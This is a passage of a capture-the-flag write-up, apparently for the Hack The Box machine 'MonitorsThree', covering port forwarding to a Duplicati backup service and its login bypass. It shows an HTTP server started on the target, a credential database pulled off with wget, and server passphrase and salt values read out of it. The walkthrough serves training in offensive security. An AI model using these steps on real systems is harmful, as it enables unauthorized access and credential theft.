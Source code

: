 ```bash
ssh marcus@monitorsthree.htb -i id_rsa -L 37337:localhost:37337
```

Heading to localhost:37337 yielded the 404 not found, dirsearch to find nothing.

```bash
ssh marcus@monitorsthree.htb -i id_rsa -L 8200:localhost:8200
```

![duplicati login page]({{ page.img }}_8200_login.png)

### login bypass

None of the credentials thus far give us access to this new service. Duplicati according to [its github](https://github.com/duplicati/duplicati) is a free and open source backup software. Searching for some vulnerabilities you will come across [https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee). This corresponds with an [issue on the duplicati github page](https://github.com/duplicati/duplicati/issues/5197). Due to the way that Duplicati handles passwords the server passphrase can be transformed and sent in lieu of a password to gain access to the service. This is however only possible if the attacker has local access to the machine Duplicati is hosted on.

My would you look at that opt directory named duplicati, convenient.

```bash
marcus@monitorsthree:~$ cd /opt/duplicati/config/
marcus@monitorsthree:/opt/duplicati/config$ python3 -m http.server 8082
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
10.10.14.12 - - [28/Aug/2024 22:28:43] "GET /Duplicati-server.sqlite HTTP/1.1" 200 -
```

```bash
wget http://monitorsthree.htb:8082/Duplicati-server.sqlite
--2024-08-28 17:28:39--  http://monitorsthree.htb:8082/Duplicati-server.sqlite
Resolving monitorsthree.htb (monitorsthree.htb)... 10.10.11.30
Connecting to monitorsthree.htb (monitorsthree.htb)|10.10.11.30|:8082... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90112 (88K) [application/vnd.sqlite3]
Saving to: ‘Duplicati-server.sqlite’

Duplicati-server.sqlite 100%[===============================>]  88.00K  --.-KB/s    in 0.1s    

2024-08-28 17:28:39 (683 KB/s) - ‘Duplicati-server.sqlite’ saved [90112/90112]

sqlite3 Duplicati-server.sqlite 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
Backup        Log           Option        TempFile    
ErrorLog      Metadata      Schedule      UIStorage   
Filter        Notification  Source        Version  
sqlite> select * from Option;
...
-2||server-port-changed|True
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
-2||server-passphrase-trayicon|1c0061ec-26ef-49b4-a224-50809c955b87
-2||server-passphrase-trayicon-hash|EFPcHlfW3b3mOp63/ucoqBJjA7JVYvxVbToO9ne1z6g=
-2||last-update-check|638604505803998860
...
```
